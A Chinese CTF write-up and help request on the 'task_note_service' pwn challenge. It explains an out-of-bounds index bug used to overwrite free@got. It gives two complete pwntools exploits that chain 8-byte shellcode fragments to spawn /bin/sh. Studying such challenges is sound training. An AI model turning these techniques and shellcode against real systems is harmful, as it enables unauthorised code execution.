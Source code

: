 ## 全国大学信息安全竞赛----task_note_service
序言
程序运行
程序分析
漏洞分析
思路
疑问
### 序言
> 比赛中这道差那么一点点就做出来了

### 程序运行

**1.menu**
```
---------menu---------
1. add note
2. show note
3. edit note
4. del note
5. exit
your choice>>
```
**2. add**
```
1. add note
2. show note
3. edit note
4. del note
5. exit
your choice>> 1
index:0
size:100
```
**3. delete**
```
---------menu---------
1. add note
2. show note
3. edit note
4. del note
5. exit
your choice>> 4
index:0
```
### 3. 程序分析
> 幸得`gd`老哥提醒, 发现这个是一个数组越界的漏洞. `add`的时候, 程序不会检查`index`的正负, 这就造成数组向前越界的可能性.实际上也是这么利用的.

**思路**: 通过数组越界修改 `free@got`的值为堆的地址. 堆中有我们构造好的`shellcode`, 程序就会去执行`shellcode`. 比较坑的是, 每次我们只能输入`8 byte`的内容. 下面是两种实现方案:

### 4. 实现方案
**方案一:**
> 通过先执行`read`系统调用, 然后读取`x64`版本的`shellcode`, 执行流跳转至该`shellcode`, 由于本帖是求助的, exp就不展开讲了, 可以直接使用(`Ubuntu 16.04.4 lts`)
```python

#!/usr/bin/env python

'''
by gd大佬
'''

from pwn import *
context.log_level = "debug"

elf = "./task_note_service2"
ENV = {"LD_PRELOAD":"./libc.so.6"}

p = process(elf)
#p = remote("49.4.23.66", 31430)

def add(idx, s):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("index:")
    p.sendline(str(idx))
    p.recvuntil("size:")
    p.sendline("8")
    p.recvuntil("content:")
    p.send(s)

def delete(idx):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("index:")
    p.sendline(str(idx))

add(-0x11, "\x58\x58\x58\x58\x00\x00\x00")
'''
pop rax
pop rax
pop rax
pop rax
add BYTE PTR [rax], al
'''
add(0x11, "\x48\x89\xfe\x48\xc7\xc7\x00")
'''
mov rsi, rdi
mov rdi, 0x0
'''
add(0x11, "\xB8\x00\x00\x00\x00\x0F\x05")
'''
mov eax, 0
syscall
'''

gdb.attach(p)
delete(0x11)

payload = p8(0)*0x7
payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
payload += "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
'''
xor esi, esi
movabs rbx,0x68732f2f6e69622f
push rsi
push rbx
push rsp
push rdi
push 0x3b
pop rax
xor edx, edx
syscall
'''

p.sendline(payload)
p.interactive()
```
**方案二**
>　思路: 就是利用跳转, 由于只能输入`8 byte`造成`shellcode`不能连续, 我就想到了跳转, 每段`shellcode`结束时, 跳转到下一段`shellcode`, 跳转位置我们可以通过相对地址来确定. 废了老大的劲儿, 才将`shellcode`调成每一行最多`5 byte`
```python
from pwn import *

p = process("./task_note_service2")
#p = remote("117.78.43.127",32059)
context.log_level = 'debug'

def add(index, size, content):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("index:")
    p.sendline(str(index))
    p.recvuntil("size:")
    p.sendline(str(size))
    p.recvuntil("content:")

    p.sendline(content)

def delete(index):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("index:")
    p.sendline(str(index))

def exit():
    p.recvuntil("your choice>> ")
    p.sendline("5")

offset = 17
add(-17, 8, "\x48\x31\xc0\x50\xeb\x1a") # xor rax, rax push rax
add(0, 8, "\x48\x31\xf6\x53\xeb\x1a") #xor rsi, rsi push rbx
gdb.attach(p)
add(1, 8, "\xbb\x2f\x62\x69\x6e\xeb\x19") #mov rbx, 0x6e69622f
add(2, 8, "\x48\x89\x1c\x24\xeb\x1a") #mov [rsp], rbx
add(3, 8, "\xbb\x2f\x2f\x73\x68\xeb\x19") #mov rbx, 0x68732f2f
add(4, 8, "\x48\x89\x5c\x24\x04\xeb\x19") #mov [rsp+4], rbx
add(5, 8, "\x54\x5f\x5b\x5e\xeb\x1a") #push rsp pop rdi pop rbx pop rsi
add(6, 8, "\xb0\x3b\x0f\x05")     #
delete(2)
#log.info("execve shellcode")
p.interactive()
```

### 问题(重点)
**问题描述**
> 我这个`exp`最后也是能执行`syscall`, 但是显示无参数. 不能`getshell`.
问: 为什么不能`getshell`, 对应的寄存器中参数都正确?

有图为证.

**有问题的EXP的结果图**
![result01](./02.png)
**无问题的EXP的结果图**
![result02](./01.png)

### 多说一句
> 还望有能力的大佬, 解答一下我的疑惑, 万分感谢.
